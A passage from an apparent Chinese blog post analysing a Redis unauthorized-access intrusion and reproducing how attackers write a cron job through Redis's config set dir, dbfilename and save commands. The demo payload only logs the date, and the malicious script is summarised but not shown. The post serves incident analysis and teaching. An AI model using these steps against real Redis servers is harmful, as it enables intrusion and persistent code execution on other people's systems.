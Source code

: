 	![请添加图片描述](https://img-blog.csdnimg.cn/2fee3af1298b40258ae60071fd7c846f.png)

8. 分析恶意脚本源码（由于脚本的性质，这里不做上传，需要的可以直接访问上面公网地址获取，切记不要在物理机访问），大致有三部分内容

	- 目录提权，命令伪造
	- 杀死防御进程，杀死竞争进程，下载指定脚本并执行（这里才是真正执行恶意代码逻辑的脚本）
	- 清理日志文件


## :hammer: 攻击原理分析
> 看了上面的溯源过程，可能会有一个疑问。
> <br>
> `redis` 被写入了四个 `key` 为 `backup`，值为疑似计划任务命令的键值对，这个很容易理解，因为 `redis` 暴露在公网且没有口令验证，被写入值很正常<br>
> 但是，这条计划任务是如何运行的？恶意脚本又是如何被下载的？

实际上，这里利用的是 `redis` 数据库中的数据持久化操作，使用动态命令将键值对信息持久化存储到磁盘的指定目录下，进而自动运行。具体如下：

1. 远程访问 `redis` ，写入 `key`、`value` 键值对。`key` 随意命名，`value` 为要执行的计划任务
	- 如： `* * * * * echo $(date) >> /root/data.txt`
	- 意为： 每分钟向 `/root/data.txt` 文件中追加一次时间
	- 在 `linux` 中，`cron` 只有 **分、时、日、月、周** 六位，没有秒级，如果需要以秒为单位，可以使用脚本或者 `sleep` 方法来配合实现
2. 动态配置 `redis` 文件持久化路径，并执行持久化命令
	- `config set dir /var/spool/cron/`
		- `/var/spool/cron` 这个目录是 `linux` 定时任务目录之一
	- `config set dbfilename root`
		- `root` root 对应的是 `/var/spool/cron` 定时任务目录下的子目录，该目录下的定时任务是以用户为纬度存储的，所以这里保存的目录名称应该是当前登录的用户名 root
	- `save`
		- 手动触发 `redis` 文件持久化
3. 等待计划任务自动触发

## :hammer: 攻击流程复现
> 这里的复现流程有一个前提：被攻击机的 `redis` 是使用 `root` 账户启动的。 如果不是 `root` 账户启动，可能后面的复现写入数据时会遇到各种各样的权限不足的问题。

### 1. 远程连接 `redis` 服务，写入定时任务
- `set backup "\n* * * * * echo $(date) >> /root/data.txt\n"`
	- 如果遇到 `MISCONF Redis is configured to save RDB snapshots, but it is currently not able to persist on disk. Commands that may modify the data set are disabled, because this instance is configured to report errors during writes if RDB snapshotting fails (stop-writes-on-bgsave-error option). Please check the Redis logs for details about the RDB error` 报错，在终端执行 `config set stop-writes-on-bgsave-error no` 即可（或者直接在 `redis.conf` 配置文件中改为 `stop-writes-on-bgsave-error no` 后重启 `redis` 服务也可以）

### 2. 动态配置 `redis` 的持久化路径和文件名，手动持久化，触发定时任务的保存

- `config set dir /var/spool/cron/`
	- 配置 `redis` 持久化文件存储路径为 `/var/spool/cron`。该目录是 `linux` 系统定时任务存储的目录之一
- `config set dbfilename root`
	- 配置 `redis` 持久化文件存储名称为 `root`。 该文件是 `root` 用户创建的定时任务存储的文件之一
- `save`
	- 手动触发 `redis` 持久化

- 过程如图
